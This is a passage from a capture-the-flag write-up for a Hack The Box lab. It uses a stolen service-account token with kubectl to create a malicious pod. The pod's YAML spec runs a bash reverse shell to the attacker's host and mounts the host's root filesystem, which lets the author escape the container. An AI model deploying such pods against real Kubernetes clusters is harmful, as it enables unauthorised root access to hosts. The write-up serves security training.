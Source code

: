 In the list on the 3rd line I observed that I can create pods inside the container.

Once I confirmed that I can create pods inside the container I extraced further information about the nginx pod:

```bash
kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```
From the results we can see that namespace is "default" & "image= nginx:1.14.2".

Using this info & taking refrence from [0xdf writeup](https://0xdf.gitlab.io/2022/02/14/htb-steamcloud.html#shell-as-root), I crafted a YAML file inspired by [0xdf's writeup](https://0xdf.gitlab.io/2022/02/14/htb-steamcloud.html#shell-as-root) to achieve a reverse shell:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kill3r
  namespace: default
spec:
  containers:
  - name: kill3r
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/<my-ip>/8443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

After the creation of this yaml file I used this to create the pod. This Pod will mount / from the host machine into /mnt inside the container (we could have chosen another directory).

```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token apply -f kill3r.yaml
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/26bbe09c-4862-4389-9f66-850402ccacc1)

With the pod established, I promptly gained a reverse shell:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8d571b99-59ee-406a-bbf9-d3067193e924)

Taking advantage of the mounted volume at "/mnt," I navigated to the directory, escaped the container, and ultimately secured the coveted root flag. (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/82b6685c-814b-40e3-ae40-1e6bd0aef1d4)
